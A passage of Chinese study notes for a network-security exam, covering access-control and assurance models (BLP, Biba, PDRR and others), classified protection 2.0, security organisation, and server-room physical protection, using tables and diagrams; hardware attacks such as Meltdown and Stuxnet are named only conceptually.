###### 🧭 网络安全体系特征

| 特征 | 内容 |
| --- | --- |
| **整体性** | 网络安全体系从**全局、长远**的角度实现安全保障，网络安全单元按照一定的规则，相互依赖、相互约束、相互作用而形成**人机物一体化**的网络安全保护方式 |
| **协同性** | 网络安全体系依赖于**多种安全机制**，通过各种安全机制的**相互协作**，构建**系统性**的网络安全保护方案 |
| **过程性** | 针对保护对象，网络安全体系提供一种**过程式的网络安全保护机制**，**覆盖保护对象的全生命周期** |
| **全面性** | 网络安全体系基于**多个维度、多个层面**对安全威胁进行管控，构建**防护、检测、响应、恢复**等网络安全功能 |
| **适应性** | 网络安全体系具有**动态演变机制**，能够**适应网络安全威胁的变化和需求** |

> [!TIP]
> 五大特征口诀：**整、协、过、全、适**（整体性、协同性、过程性、全面性、适应性）。

---

##### 4.2 网络安全模型

###### 🧭 BLP 模型（Bell-LaPadula，机密性模型）

**Bell-LaPadula 模型（BLP 机密性模型）**该模型用于**防止非授权信息的扩散**，从而保证系统的安全。该模型包含**两个特性**：**简单安全特性**和 **\*（星）特性**。

| 特征 | 内容 |
| --- | --- |
| **简单安全特性** | 主体对客体进行**读访问**的必要条件是**主体的安全级别不小于客体的安全级别**，主体的**范畴集合包含客体的全部范畴**，即**主体只能向下读，不可向上读** |
| **\*（星）特性** | 一个主体对客体进行**写访问**的必要条件是**客体的安全级支配主体的安全级**，即**客体的保密级别不小于主体的保密级别**，客体的**范畴集合包含主体的全部范畴**，即**主体只能向上写，不可向下写** |

> [!IMPORTANT]
> **BLP 模型只能保障机密性，不能保障完整性。**
> 口诀：**下读（不能上读）、上写（不能下写）** —— 「**不上读，不下写**」（No Read Up, No Write Down）。

###### 🧭 BLP 模型用于军事安全策略

**BLP 机密性模型**可用于实现**军事安全策略（Military Security Policy）**。该策略最早是**美国国防部**为了保护计算机系统中的机密信息而提出的一种**限制策略**。

**策略规定**：用户要合法读取某信息，**当且仅当**用户的**安全级大于或等于该信息的安全级**，并且用户的**访问范畴包含该信息范畴**时。

| 概念 | 说明 |
| --- | --- |
| **安全级** | 按顺序规定为 **公开 < 秘密 < 机密 < 绝密** |
| **范畴集** | 指**安全级的有效领域或信息所归属的领域**，如**人事处、财务处**等 |

**系统访问类例子：**

| 实体 | 访问类 |
| --- | --- |
| 文件 F 访问类 | **{ 机密 : 人事处，财务处 }** |
| 用户 A 访问类 | **{ 绝密 : 人事处 }** |
| 用户 B 访问类 | **{ 绝密 : 人事处，财务处，科技处 }** |

**结论**：按照军事安全策略规定，**用户 B 可以阅读文件 F**，但**用户 A 不能读文件 F**，因为**用户 A 缺少「财务处」范畴**。

```mermaid
graph TD
    A["安全级：公开 < 秘密 < 机密 < 绝密"]
    B["BLP 简单安全特性：主体安全级 >= 客体安全级 才能读（下读）"]
    C["BLP *特性：客体安全级 >= 主体安全级 才能写（上写）"]
    D["范畴集：主体范畴须包含客体全部范畴"]
```

> [!WARNING]
> 易错：用户 A 的安全级（绝密）**高于**文件 F（机密），但**范畴不包含「财务处」**，所以**仍不能读**。安全级和范畴两个条件必须**同时满足**。

###### 🧭 Biba 模型（完整性模型）

**Biba 完整性模型**，主要用于**防止非授权修改系统信息**，以保证系统的**信息完整性**。

**Biba 三个特性：简单安全特性、\* 特性和调用特性。**

| 特征 | 内容 |
| --- | --- |
| **简单安全特性** | 主体对客体进行**修改访问**的必要条件是**主体的完整性级别不小于客体的完整性级别**，主体的**范畴包含客体的全部范畴**，即**主体不能向下读** |
| **\*（星）特性** | 主体的**完整性级别小于客体的完整性级别**，不能修改客体，即**主体不能向上写** |
| **调用特性** | 主体的**完整性级别小于另一个主体的完整性级别**，不能调用另一个主体 |

```mermaid
graph LR
    subgraph 简单安全特性
        A1["高完整性主体"] -->|"可以读"| A2["低完整性客体"]
        A3["低完整性主体"] -->|"不能读（不能向下读）"| A4["高完整性客体"]
    end
    subgraph 星特性
        B1["高完整性主体"] -->|"可以写"| B2["低完整性客体"]
        B3["低完整性主体"] -->|"不能写（不能向上写）"| B4["高完整性客体"]
    end
    subgraph 调用特性
        C1["低完整性主体"] -->|"不能调用"| C2["高完整性主体"]
    end
```

> [!IMPORTANT]
> BLP vs Biba 对比必背：
>
> | 模型 | 保障属性 | 读规则 | 写规则 |
> |---|---|---|---|
> | **BLP** | **机密性** | **向下读**（不上读） | **向上写**（不下写） |
> | **Biba** | **完整性** | **不能向下读**（向上读） | **不能向上写**（向下写） |
>
> 二者**读写方向完全相反**。

###### 🧭 信息流模型（FM）

| 项目 | 要点 |
| --- | --- |
| 定义 | 信息流模型是**访问控制模型的一种变形**，简称 **FM**，该模型**不检查主体对客体的存取**，而是根据**两个客体的安全属性**来控制**从一个客体到另一个客体的信息传输** |
| 形式化表示 | 信息流模型可表示为 **FM = (N, P, SC, ⊗, →)** |
| 符号含义 | **N** — 客体集；**P** — 进程集；**SC** — 安全类型集；**⊗** — 支持结合、交换的**二进制运算符**；**→** — **流关系** |
| 安全性判据 | 一个安全的 FM，**当且仅当**执行一系列操作后，**不产生高安全级信息流向低安全级** |
| 用途 | 信息流模型可以用于分析系统的**隐蔽通道**，防止敏感信息通过**隐蔽通道泄露**。隐蔽通道通常表现为**低安全等级主体对高安全等级主体所产生信息的间接读取** |

```mermaid
graph LR
    N["N 客体集"] --> FM["FM = (N, P, SC, ⊗, →)"]
    P["P 进程集"] --> FM
    SC["SC 安全类型集"] --> FM
    O["⊗ 二进制运算符"] --> FM
    R["→ 流关系"] --> FM
    FM --> U["用于分析隐蔽通道，防止敏感信息泄露"]
```

###### 🧭 信息保障模型

信息保障模型：**PDRR 模型、P²DR 模型（P2DR）、WPDRRC 模型**。

**PDRR 模型**：**保护 Protection、检测 Detection、恢复 Recovery、响应 Response**。

| 环节 | 内容 |
| --- | --- |
| **保护** | **加密、数据签名、访问控制、认证、信息隐藏、防火墙技术**等 |
| **检测** | **入侵检测、系统脆弱性、数据完整性、攻击性检测**等 |
| **恢复** | **数据备份、数据修复、系统恢复**等 |
| **响应** | **应急策略、应急机制、应急手段及安全状态评估** |

**P²DR 模型**：**安全策略 Policy、防护 Protection、检测 Detection、响应 Response**。

**WPDRRC 模型**：**预警 Warning、保护 Protection、检测 Detection、反应 Response、恢复 Recovery、反击 Counterattack**。

```mermaid
graph LR
    subgraph PDRR
        A1["保护"] --> A2["检测"] --> A3["恢复"] --> A4["响应"]
    end
    subgraph P2DR
        B1["安全策略 Policy"] --> B2["防护"] --> B3["检测"] --> B4["响应"]
    end
    subgraph WPDRRC
        C1["预警"] --> C2["保护"] --> C3["检测"] --> C4["反应"] --> C5["恢复"] --> C6["反击"]
    end
```

> [!IMPORTANT]
> 三个模型字母辨析：
> - **PDRR**：保护 / 检测 / 恢复 / 响应（**无策略**）
> - **P2DR**：**策略** / 防护 / 检测 / 响应（**有策略，无恢复**）
> - **WPDRRC**：预警 / 保护 / 检测 / 反应 / 恢复 / **反击**（**六环节，最全**）

###### 🧭 能力成熟度模型 CMM

能力成熟度模型 **CMM** 是对一个组织机构的**能力进行成熟度评估**，分为**五级**：

| 级别 | 名称 | 特征 |
| --- | --- | --- |
| **1 级** | **非正式执行** | 具备**随机、无序、被动**的过程 |
| **2 级** | **计划跟踪** | 具备**主动、非体系化**的过程 |
| **3 级** | **充分定义** | 具备**正式的、规范**的过程 |
| **4 级** | **量化控制** | 具备**可量化**的过程 |
| **5 级** | **持续优化** | 具备**可持续优化**的过程 |

```mermaid
graph TD
    L1["1级 非正式执行：随机、无序、被动"] --> L2["2级 计划跟踪：主动、非体系化"]
    L2 --> L3["3级 充分定义：正式、规范"]
    L3 --> L4["4级 量化控制：可量化"]
    L4 --> L5["5级 持续优化：可持续优化"]
```

###### 🧭 成熟度模型的种类

成熟度模型主要有 **SSE-CMM 系统安全工程能力成熟度模型、数据安全能力成熟度模型、软件安全能力成熟度模型**。

| 模型 | 要点 |
| --- | --- |
| **SSE-CMM** | 系统安全工程能力成熟度模型，包括**工程过程类、组织过程类、项目过程类** |
| **数据安全能力成熟度模型** | 数据安全能力从**组织建设、制度流程、技术工具及人员能力**四个维度评估 |
| **软件安全能力成熟度模型**（分级实践） | **CMM 1 级** — **补丁修补**；**CMM 2 级** — **渗透测试、安全代码评审**；**CMM 3 级** — **漏洞评估、代码分析、安全编码标准**；**CMM 4 级** — **软件安全风险识别、SDLC 实施不同安全检查点**；**CMM 5 级** — **改进软件安全风险覆盖率、评估安全差距** |

> [!TIP]
> 软件安全 CMM 五级实践口诀：**补丁 → 渗透/评审 → 评估/编码标准 → 风险识别/SDLC 检查点 → 改进覆盖率/评估差距**。

###### 🧭 其他安全模型

| 模型 | 内容 |
| --- | --- |
| **纵深防御模型** | ① **安全保护** ② **安全监测** ③ **实时响应** ④ **恢复**（图 4-9） |
| **分层防护模型** | 参考 **OSI 模型**，对保护对象进行**层次化保护** |
| **等级保护模型** | 将信息系统**划分成不同安全保护等级**，采取相应的**保护措施**（图 4-11 电子政务等级保护示意图：安全要求 → 系统保护措施） |
| **可生存性（生存性）模型** | 系统**遭受入侵**，网络信息系统**仍然能够持续提供必要服务的能力**。遵循「**3R**」策略：**抵抗（Resistance）、识别（Recognition）和恢复（Recovery）** |

```mermaid
graph LR
    A["纵深防御模型"] --> A1["① 安全保护"]
    A1 --> A2["② 安全监测"]
    A2 --> A3["③ 实时响应"]
    A3 --> A4["④ 恢复"]
    B["可生存性 3R"] --> B1["抵抗 Resistance"]
    B --> B2["识别 Recognition"]
    B --> B3["恢复 Recovery"]
```

> [!IMPORTANT]
> 可生存性「**3R**」：**抵抗（Resistance）、识别（Recognition）、恢复（Recovery）**。

---

##### 4.3 网络安全原则

| 编号 | 原则 | 内容 |
| --- | --- | --- |
| **(1)** | **系统性和动态性原则** | 强调系统的**整体安全性**，即「**木桶原则**」。网络安全策略根据网络系统的**安全环境和攻击适时而变** |
| **(2)** | **纵深防护与协作性原则** | 各种网络安全技术之间应该**互相补充，互相配合**。网络安全体系应该包括**安全评估、安全防护、安全监测、安全应急响应体制** |
| **(3)** | **网络安全风险和分级保护原则** | 网络安全体系要正确处理**需求、风险与代价**的关系，做到**安全性与可用性相容**，做到**组织上可执行**。**分级保护**是指根据**网络资产的安全级别**，采用合适的网络防范措施来保护网络资产，做到**适度防护** |
| **(4)** | **标准化与一致性原则** | — |
| **(5)** | **技术与管理相结合原则** | — |
| **(6)** | **安全第一，预防为主原则** | — |
| **(7)** | **安全与发展同步，业务与安全等同** | — |
| **(8)** | **人机物融合和产业发展原则** | — |

> [!TIP]
> 八项原则速记：系统动态（木桶）、纵深协作、风险分级、标准一致、技术管理、安全第一、同步等同、人机物融合。

---

##### 4.4 网络安全体系框架与组织管理

###### 🧭 网络安全体系框架（图 4-12）

组成要素（图示）：**网络安全法律法规、安全策略、组织管理、技术措施、标准规范、安全建设与运营、人员队伍、教育培训、产业生态、网络安全投入与建设、应急与响应**等。

```mermaid
graph TD
    F["网络安全体系框架"] --> A["网络安全法律法规"]
    F --> B["标准规范"]
    F --> C["安全策略"]
    F --> D["组织管理"]
    F --> E["技术措施"]
    F --> G["安全建设与运营"]
    F --> H["人员队伍 / 教育培训"]
    F --> I["产业生态"]
    F --> J["网络安全投入与建设"]
    F --> K["应急与响应"]
```

###### 🧭 网络安全组织

网络安全组织结构主要包括**领导层、管理层、执行层以及外部协作层**等。

| 层次 | 内容 |
| --- | --- |
| **领导层** | 由**各部门的领导**组成，主要职责：审查与批准**网络安全项目实施计划与预算**，**网络安全工作人员考察和录用** |
| **管理层** | 由**安全负责人和中层管理人员**组成，主要职责：**监督安全项目的实施**，**监督日常维护中的安全**，**监督安全事件的应急处理** |
| **执行层** | 由**业务人员、技术人员、系统管理员、项目工程人员**等组成，主要职责：**负责各个系统或网络设备的安全运行**，**负责系统的日常安全维护** |
| **外部协作层** | 由**组织外的安全专家或合作伙伴**组成，其职责主要有：**新的信息技术安全风险分析**，**网络系统建设和改造安全建议**，**网络安全事件协调** |

```mermaid
graph TD
    L["领导层：审批计划与预算、人员考察录用"] --> M["管理层：监督项目实施/日常维护/应急处理"]
    M --> E["执行层：系统或网络设备安全运行与日常维护"]
    X["外部协作层：风险分析、建设改造建议、安全事件协调"] --> M
```

###### 🧭 安全管理

网络安全管理体系涉及**五个方面**内容：**管理目标、管理手段、管理主体、管理依据、管理资源**。

| 方面 | 内容 |
| --- | --- |
| **管理目标** | (a) **政治、经济、文化、国防安全**等；(b) 网络系统的**保密、可用、可控**等 |
| **管理手段** | 包括**安全评估、安全监管、应急响应、安全协调、安全标准和规范、保密检查、认证和访问控制**等 |
| **管理主体** | 大的方面包括**国家网络安全职能部门**，小的方面主要是**网络管理员、单位负责人**等 |
| **管理依据** | **行政法规、法律、部门规章制度、技术规范**等 |
| **管理资源** | 包括**安全设备、管理人员、安全经费、时间**等 |

**人员安全**：目标是降低**误操作、偷窃、诈骗或利用**等人为造成的网络安全风险。在人员安全工作安排方面，遵循**三个原则**：

1. **多人负责原则**
2. **任期有限原则**
3. **职责分离原则**

> [!IMPORTANT]
> 人员安全三原则：**多人负责、任期有限、职责分离**（这是等保/ISMS 常考点）。

---

##### 4.5 网络安全等级保护 2.0

###### 🧭 五个保护等级

等级保护分为**五个**：

| 等级 | 名称 |
| --- | --- |
| **第一级** | **用户自主保护级** |
| **第二级** | **系统审计保护级** |
| **第三级** | **安全标记保护级** |
| **第四级** | **结构化保护级** |
| **第五级** | **访问验证保护级** |

**根据信息系统按照重要性和受破坏后的危害性进行定级，二级和三级居多。**

**各等级损害后果：**

| 等级 | 损害后果 |
| --- | --- |
| **第五级 访问验证保护级** | 信息系统受到破坏后，会对**国家安全**造成**特别严重**损害 |
| **第四级 结构化保护级** | 信息系统受到破坏后，会对**社会秩序和公共利益**造成**特别严重**损害，或者对**国家安全**造成**严重**损害 |
| **第三级 安全标记保护级** | 信息系统受到破坏后，会对**社会秩序和公共利益**造成**严重**损害，或者对**国家安全**造成**损害** |
| **第二级 系统审计保护级** | 信息系统受到破坏后，会对**公民、法人和其他组织的合法权益**产生**严重**损害，或者对**社会秩序和公共利益**造成**损害** |
| **第一级 用户自主安全保护级** | 信息系统受到破坏后，会对**公民、法人和其他组织权益造成损害**，但**不损害国家安全、社会秩序和公共利益** |

```mermaid
graph TD
    L5["第五级 访问验证保护级：国家安全特别严重损害"] --> L4["第四级 结构化保护级：社会秩序/公共利益特别严重损害 或 国家安全严重损害"]
    L4 --> L3["第三级 安全标记保护级：社会秩序/公共利益严重损害 或 国家安全损害"]
    L3 --> L2["第二级 系统审计保护级：公民/法人合法权益严重损害 或 社会秩序公共利益损害"]
    L2 --> L1["第一级 用户自主保护级：公民/法人权益损害，不损害国家/社会"]
```

> [!IMPORTANT]
> 五级名称必背顺序：**用户自主 → 系统审计 → 安全标记 → 结构化 → 访问验证**。

###### 🧭 等保项目流程

| 阶段 | 主要活动 |
| --- | --- |
| **定级咨询服务** | 现状梳理 → 等级确定 → 定级报告 → 报告编制 |
| **协助备案服务** | — |
| **安全规划与整改方案设计 + 整改集成实施服务** | 整改集成实施服务 |
| **协助测评服务** | 测评准备 |
| **安全运维保障服务** | 安全巡检、应急响应、安全通告 |

```mermaid
graph LR
    A["定级咨询服务"] --> B["协助备案服务"]
    B --> C["安全规划与整改方案设计 / 整改集成实施"]
    C --> D["协助测评服务"]
    D --> E["安全运维保障服务"]
```

###### 🧭 等保标准变化与 2.0 新特点

**等保 2.0 的主要变化：**

| 变化 | 内容 |
| --- | --- |
| **① 扩大对象范围** | 扩大了**对象范围**，将**云计算、移动互联、物联网、工业控制系统**等列入标准范围，构成了「**网络安全通用要求 + 新型应用的网络安全扩展要求**」的要求内容 |
| **② 三重防护体系** | 提出了在「**安全通信网络**」「**安全区域边界**」「**安全计算环境**」和「**安全管理中心**」支持下的**三重防护体系结构** |
| **③ 强化可信计算** | 等级保护 2.0 新标准**强化了可信计算技术使用的要求**，各级增加了「**可信验证**」控制点 |

**「可信验证」各级要求：**

| 级别 | 可信验证要求 |
| --- | --- |
| **一级** | 要求设备的**系统引导程序、系统程序**等进行**可信验证** |
| **二级** | 增加**重要配置参数和应用程序**进行**可信验证**，并将**验证结果形成审计记录送至安全管理中心** |
| **三级** | 增加**应用程序的关键执行环节**进行**动态可信验证** |
| **四级** | 增加**应用程序的所有执行环节**进行**动态可信验证** |

```mermaid
graph TD
    T["等保2.0 三重防护体系结构"] --> A["安全通信网络"]
    T --> B["安全区域边界"]
    T --> C["安全计算环境"]
    T --> D["安全管理中心（支撑）"]
```

> [!IMPORTANT]
> 等保 2.0 三要素 + 一中心：**安全通信网络、安全区域边界、安全计算环境** + **安全管理中心**。
> 可信验证递增：一级（引导/系统程序）→ 二级（配置/应用 + 审计记录送中心）→ 三级（关键环节动态）→ 四级（所有环节动态）。

###### 🧭 等保 2.0 新增内容（扩展要求对象）

| 领域 | 新增保护对象 |
| --- | --- |
| **云计算** | ① **云服务商侧的云计算平台**（**不应低于云租户保护等级**）；② **云服务客户（云租户）侧的业务系统** |
| **移动互联** | **移动终端、移动应用、无线网络、相关有线网络**；业务系统 |
| **物联网** | **现场采集/执行、现场控制和过程监控系统** |
| **工业控制系统** | **生产管理系统** |
| **大数据** | **安全责任主体相同的大数据、大数据平台和应用**（**原则上不低于三级**） |

###### 🧭 智慧城市安全体系应用参考（图 4-?）

| 层次 | 内容 |
| --- | --- |
| **智慧城市安全战略保障** | **法律法规、政策文件** |
| **智慧城市安全管理保障** | 安全管理 / 安全建设与运营保障 / 监测预警 / 评价改进 等 |
| **智慧城市安全技术保障** | **智慧应用层安全**（应用软件安全、数据与服务融合层安全、数据内容安全）、**网络通信层安全**、**网络设备安全**、**感知设备安全** |
| **智慧城市安全基础支撑** | **密钥与证书、身份管理等基础支撑设施**；**认证、评估、检测、审查、设计等基础支撑服务** |

```mermaid
graph TD
    S["智慧城市安全战略保障：法律法规、政策文件"] --> G["智慧城市安全体系"]
    M["智慧城市安全管理保障：管理/建设运营/监测预警/评价改进"] --> G
    T["智慧城市安全技术保障：应用层安全 / 数据与服务融合层安全 / 网络通信层 / 网络设备 / 感知设备"] --> G
    B["智慧城市安全基础支撑：密钥与证书、身份管理；认证评估检测审查设计服务"] --> G
```

###### 🧭 智能交通网络安全体系应用参考（图 4-18）

要点：包括**智能交通网络安全职能整体架构**与**智能交通产业内网络安全管理构架**两大部分；涉及**政府机关**等组织、决策、模式、**职能设计、成本管理**、**运维安全**、**安全策略、组织、环境**等要素。

> [!NOTE]
> 该页 OCR 严重失真，仅能辨识框架性文字，具体要素以原书图 4-18 为准。

---

#### 第 5 章 物理与环境安全技术

本章目录：物理安全概述 → 机房安全分析与防护 → 通信线路/设备/存储介质安全。

##### 5.1 物理安全概述

###### 🧭 物理安全概念

| 项目 | 要点 |
| --- | --- |
| **传统物理安全** | 包括**环境、设备和记录介质**在内的所有支持网络信息系统运行**硬件**的总体安全 |
| **广义物理安全** | 指由**硬件、软件、操作人员、环境**组成的**人、机、物融合**的**网络信息物理系统**的安全 |

###### 🧭 物理安全威胁分类

```mermaid
graph TD
    T["物理安全威胁"] --> N["自然安全威胁"]
    T --> H["人为安全威胁"]
    N --> N1["地震"]
    N --> N2["雷电"]
    N --> N3["（其他自然灾害）"]
    H --> H1["毁坏"]
    H --> H2["硬件攻击"]
```

###### 🧭 新的硬件威胁特点

与传统的物理安全威胁比较，**新的硬件威胁具有隐蔽性、危害性**，攻击具有**主动性和非临近性**。

**常见的硬件攻击技术与相关实例：**

| 编号 | 技术 / 实例 | 说明 |
| --- | --- | --- |
| **(1)** | **硬件木马** | 通常是指在**集成电路芯片（IC）**中被植入的**恶意电路**，当其被某种方式**激活**后，会**改变 IC 的原有功能和规格**，导致**信息泄露或失去控制**，造成重大危害。**IC 整个生命周期**（研发设计、生产制造、封装测试以及应用）**都有可能被植入恶意硬件逻辑**，形成硬件木马 |
| **(2)** | **硬件协同的恶意代码** | 可以使得**非授权的软件访问特权的内存区域** |
| **(3)** | **硬件安全漏洞利用** | 硬件安全漏洞对网络信息系统安全的影响更具有**持久性和破坏性**。**2018 年 1 月**发现的「**熔断（Meltdown）**」和「**幽灵（Spectre）**」**CPU 漏洞**属于硬件安全漏洞 |
| **(4)** | **基于软件漏洞攻击硬件实体** | 利用**控制系统的软件漏洞**，修改**物理实体的配置参数**，使得物理实体处于**非正常运行状态**，从而导致物理实体受到破坏。如「**震网**」病毒 |
| **(5)** | **基于环境攻击计算机实体** | 利用计算机系统所依赖的**外部环境缺陷**，恶意破坏或改变计算机系统的外部环境，如**电磁波、磁场、温度、空气湿度**等，导致计算机系统运行出现问题 |

**硬件木马攻击示意（图 5-2）：**

```mermaid
graph TD
    A["供应商（含恶意设计者） GDS-II 设计文件"] --> B["代工厂：逆向工程 GDS-II/裸片并植入硬件木马、IC/IP 盗版、伪造、复制、过建等（由代工厂中的攻击者）"]
    B --> C["ICs"]
    C --> D["可信的测试者等：ICs 通过测试"]
    D --> E["IC 盗窃、物理攻击（逆向工程等）、用含硬件木马 IC 替换原 IC"]
```

**「熔断」与「幽灵」漏洞原理要点：** 该漏洞可用于以**侧信道方式**获取**指令预取、预执行对 cache 的影响**等信息，通过 **cache 与内存的关系**，进而获取特定**代码、数据在内存中的位置信息**，从而利用其他漏洞对该内存进行**读取或篡改**，实现攻击目的。

> [!IMPORTANT]
> **Meltdown（熔断）** 和 **Spectre（幽灵）** 是 **2018 年 1 月**曝光的 **CPU 硬件漏洞**，利用**侧信道 + 预测执行 + cache** 泄露信息。
> **震网（Stuxnet）** 是**基于软件漏洞攻击硬件实体**的典型（破坏物理实体）。

###### 🧭 物理安全保护

| 类别 | 内容 |
| --- | --- |
| **(1) 设备物理安全** | 设备的**标志和标记**、**防止电磁信息泄露**、**抗电磁干扰**、**电源保护**以及**设备振动、碰撞、冲击适应性**等方面。确保**设备供应链的安全及产品的安全质量**，防止设备其他相关方面存在**硬件木马和硬件安全漏洞**。**智能设备还要确保嵌入的软件是安全可信的** |
| **(2) 环境物理安全** | **机房场地选择、机房屏蔽、防火、防水、防雷、防鼠、防盗、防毁、供配电系统、空调系统、综合布线和区域防护**等方面 |
| **(3) 系统物理安全** | **存储介质安全、灾难备份与恢复、物理设备访问、设备管理和保护、资源利用**等 |

**物理安全保护的方法：安全合规、访问控制、安全屏蔽、故障容错、安全监测与预警、供应链安全管理和容灾备份等。**

---

##### 5.2 机房安全分析与防护

###### 🧭 机房物理安全防护措施（一）

| 防护点 | 防护措施 |
| --- | --- |
| **防火** | (1) **消除火灾隐患**；(2) **设备火灾报警系统**；(3) **配置灭火设备**；(4) **加强防火管理和操作规范** |
| **防水** | (1) 机房内**不得铺设水管和蒸汽管道**，若非铺不可，则必须采取**防渗漏措施**；(2) 机房**墙壁、天花板、地面**应有**防水、防潮性能**；(3) 遇有水管的地方应设置**止水阀和排水沟**；(4) **不要把机房设置在楼房底层或地下室**，以防水侵蚀或受潮；(5) 如有通往机房的**电缆沟**，要防止下雨时电缆沟进水漫进机房；通往机房地沟的墙壁和地面应能**防渗水** |
| **防震** | (1) 网络机房所在的**建筑物应具有抗地震能力**；(2) **网络机柜和设备要固定牢靠**，并安装**防震装置**；(3) 加强**安全操作管理**，例如**禁止移动在线运行的网络设备** |
| **防盗** | (1) **设置报警器**；(2) **门禁（出入口控制）**；(3) **摄像监控**；(4) **严格物理访问控制**；(5) **安全监控** |
| **防鼠虫害** | (1) （OCR 缺失，疑为「机房内禁止存放食物 / 保持清洁」）；(2) 在机房中可利用**超声波驱鼠**，或设置一些**捕鼠器械**；(3) 投放**杀鼠药物**，或在电缆上涂上**环己基类防鼠（驱避剂）**；(4) 在电缆外施加**毒饵**，以消灭鼠虫，或利用**捕杀工具**捕杀 |

###### 🧭 机房物理安全防护措施（二）

| 防护点 | 防护措施 |
| --- | --- |
| **防雷（防雷电）** | (1) 在网络设备所处的环境中**安装避雷针**；(2) **网络设备安全接地**，并将该「**地线**」连通机房的**地线网**，以确保其安全保护作用；(3) 对**重要网络设备安装专用防雷设施** |
| **防电磁干扰 / 防电磁泄露** | (1) 采用**接地**的方法；(2) 用**屏蔽**方法；(3) **选择合适的场地** |
| **防静电** | (1) 人员服装采用**不易产生静电的衣料**，工作鞋选用**低阻值材料**制作；(2) **控制机房温湿度**，使其保持在不易产生静电的范围内；(3) 机房地板从**地板表面到接地系统的阻值**，应能保证**防止人身触电和产生静电**；(4) 机房使用的各种**工作台、柜**等，应选择**产生静电小的材料**；(5) 在进行网络设备操作时，应**戴静电手套** |
| **供配电 / 电源保护** | (1) **专用供电线路**；(2) **不间断电源（UPS）**；(3) **备用发电机** |

```mermaid
graph TD
    P["机房物理安全防护"] --> A["防火：消除隐患/报警/灭火设备/管理规范"]
    P --> B["防水：不设底层/止水阀排水沟/电缆沟防渗"]
    P --> C["防震：建筑物抗震/机柜固定/禁止移动在线设备"]
    P --> D["防盗：报警器/门禁/摄像监控/访问控制"]
    P --> E["防鼠虫害：超声波驱鼠/捕鼠器械/杀鼠药物/毒饵"]
    P --> F["防雷：避雷针/安全接地/专用防雷设施"]
    P --> G["防电磁：接地/屏蔽/选场地"]
    P --> H["防静电：衣料/温湿度/地板阻值/工作台材料/静电手套"]
    P --> I["供电：专用线路/UPS/备用发电机"]
```

###### 🧭 机房功能分区

机房组成：根据**计算机系统的性质、任务、业务量大小、所选用计算机设备的类型**以及计算机对**供电、空调、空间**等方面的要求和**管理体制**来确定。机房可选用下列房间（**允许一室多用或酌情增减**）：

| 类别 | 房间 |
| --- | --- |
| **(1) 主要工作房间** | **主机房、终端室**等 |
| **(2) 第一类辅助房间** | **低压配电间、不间断电源室、蓄电池室、空调机室、发电机室、气体钢瓶室、监控室**等 |
| **(3) 第二类辅助房间** | **资料室、维修室、技术人员办公室** |
| **(4) 第三类辅助空间** | **储藏室、缓冲间、技术人员休息室、盥洗室** |

###### 🧭 机房等级划分

计算机机房的安全等级分为 **A 级、B 级、C 级**三个基本级别：

| 等级 | 划分条件与要求 |
| --- | --- |
| **A 级** | 计算机系统运行中断后，会对**国家安全、社会秩序、公共利益**造成**严重损害**的；对计算机机房的安全有**严格的要求**，有**完善的**计算机机房安全措施 |
| **B 级** | 计算机系统运行中断后，会对**国家安全、社会秩序、公共利益**造成**较大损害**的；对计算机机房的安全有**较严格的要求**，有**较完善的**计算机机房安全措施 |
| **C 级** | **不属于 A、B 级**的情况。对机房的安全有**基本的要求**，有**基本**安全措施 |

**说明**：根据计算机系统的规模、用途，计算机机房安全可**按某一级执行，也可按某些级综合执行**。如**电磁干扰 A 级，火灾报警及灭火 C 级**。

**表 5-1 安全级别要求（节选，OCR 部分缺失）：**

| 项目 | A 级 | B 级 | C 级 |
| --- | --- | --- | --- |
| 防火 | ○ | ○ | ○（OCR 部分缺失） |
| 火灾自动报警系统 | ○ | □ | —（OCR 部分缺失） |
| 灭火器 | ○ | ○ | ○（OCR 部分缺失） |
| 防水 | （OCR 缺失） | （OCR 缺失） | （OCR 缺失） |

> [!NOTE]
> 图例说明：**○ 表示要求并可有附加要求；□ 表示要求；— 表示无需要求。**

###### 🧭 机房场地选择要求

| 保障项 | 要求 |
| --- | --- |
| **环境安全性** | (1) 应**避开危险来源区**：为防止计算机机房遭到周围不利环境的意外侵害，应尽量避免将机房建在**易燃易爆**的场所，如**化工库、油料库、液化气站或煤气站**等火源附近；(2) 应**避开环境污染区**，如**化工污染区和有毒气体、腐蚀性气体污染区**及**尘埃较多**的区域，如**石灰厂、水泥厂和矿山**等附近；(3) 应**避开盐雾区**，如靠近海的区域或产盐区；(4) 应**避开落雷区域** |
| **地质可靠性** | (1) **不要建在杂填土、淤泥、流砂层以及地层断裂**的地质区域上；(2) 建在山区的计算机房，应避开**滑坡、泥石流、雪崩和溶洞**等地质不牢靠的区域；(3) 建在矿区的计算机房，应避开**采矿崩落区**地段，也应避开**有开采价值的矿区**；(4) 应避开**低洼、潮湿**区域 |
| **电磁干扰防护** | (1) 应避开或远离**无线电干扰源和微波线路的强电磁场干扰**场所，如**广播电视发射台、雷达站**。根据《**计算机场地通用规范（GB/T 2887-2011）**》，机房内**无线电干扰场强**，在频率范围 **0.15 MHz ~ 1000 MHz** 时不大于（**126 dBμV/m**，OCR 数值缺失）；(2) 应避开**强电流冲击和强电磁干扰**的场所，如距离**电气化铁路、高压传输线、高频炉、大电机、大功率开关**等设备 **200 m 以上** |
| **避开强振动源和强噪声源** | (1) 应避开**振动源**，如**冲床、锻床、爆炸成形**的场所；(2) 应避开**机场、火车站和车辆往来比较频繁的区域**以及**建筑工地、影剧院及其他噪声区**；(3) 应**远离主要通道**，并避免**机房窗户直接临街** |
| **避免设在建筑物的高层以及用水设备的下层或隔壁** | 计算机机房应选用**专用的建筑物**。如果机房是大楼的一部分，应选用**二层为宜**，**一层作为动力、配电、空调间**等。同时，应尽量选择**电力、水源充足，环境清洁，交通和通信方便**的地方。此外，在进行机房场地的选择时，还要同时考虑**计算机的功能与要求**，对于**机要部门信息系统的机房**，还应考虑机房中的**信息射频不易泄漏和被窃取** |

> [!IMPORTANT]
> 关键数字：
> - 无线电干扰场强频率范围：**0.15 MHz ~ 1000 MHz**
> - 与强电磁干扰源距离：**200 m 以上**
> - 机房宜设在**二层**，一层作动力/配电/空调间

###### 🧭 数据中心建设与设计要求

**数据中心**是实现对数据信息的**集中处理、存储、传输、交换、管理**以及为相关的电子信息设备运行提供**运行环境**的**建筑场所**。

**按规模大小**可将数据中心分为三类：

| 类型 | 规模与选址要求 |
| --- | --- |
| **超大型数据中心** | **标准机柜 > 10000 个**；重点考虑**气候环境、能源供给**等要素，特别是以**灾备等实时性要求不高**的应用为主，优先在**气候寒冷、能源充足的一类地区**建设，也可在**气候适宜、能源充足的二类地区**建设 |
